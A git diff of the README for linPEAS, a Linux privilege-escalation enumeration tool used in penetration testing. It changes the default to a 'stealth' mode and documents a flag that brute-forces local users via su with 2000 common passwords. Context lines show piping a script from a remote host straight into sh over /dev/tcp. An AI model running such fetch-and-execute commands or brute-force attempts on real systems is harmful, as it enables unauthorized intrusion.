

linpeasv2.2.1-stealth

diff --git a/linPEAS/README.md b/linPEAS/README.md
@@ -25,6 +25,9 @@ nc -q 5 -lvnp 80 < linpeas.sh
 cat < /dev/tcp/10.10.10.10/80 | sh
 ```
 
+## IMPORTANT CHANGE
+**For satisfying most users and thanks to the incorporation of the 2000pwds/user su bruteforce, the default behaviour of linpeas has been changed to fast/stealth (no writting to disk, no 1min processes check, and no su BF). Use the parameter -a to execute all these checks**
+
 ## Basic Information
 
 The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD and OpenBSD).
@@ -33,11 +36,13 @@ This script doesn't have any dependency.
 
 It uses **/bin/sh** sintax, so can run in anything supporting `sh` (and the binaries and parameters used).
 
-It could take from **3 to 4 minutes** to execute the whole script (less than 1 min to make almost all the checks, 20s/user bruteforce with top2000, almost 1 min to search for possible passwords inside all the accesible files of the system, and 1 min to monitor the processes in order to find very frequent cron jobs). 
+By default, **linpeas won't write anything to disk and won't try to login as any other user using `su`**. 
 
-You can **decrease this** time and be more **stealthy** using the parameters: 
-- **-f** (fast & stealth) - This will bypass checking processes during 1 min and su brute - **Stealthy mode** (Nothing will be written to disk)
-- **-s** (superfast & stealth) - This will bypass the previous checks and other time consuming checks - **Stealthy mode** (Nothing will be written to disk)
+It could take from **3 to 4 minutes** to execute all the checks using **-a** parameter (less than 1 min to make almost all the checks, 20s/user bruteforce with top2000 passwords, almost 1 min to search for possible passwords inside all the accesible files of the system, and 1 min to monitor the processes in order to find very frequent cron jobs). 
+
+Other parameters: 
+- **-a** (all checks) - This will **execute also the check of processes during 1 min, and brute-force each user using `su` with the top2000 passwords.**
+- **-s** (superfast & stealth) - This will bypass some time consuming checks - **Stealth mode** (Nothing will be written to disk)
 
 This script has **several lists** included inside of it to be able to **color the results** in order to highlight PE vector.
 
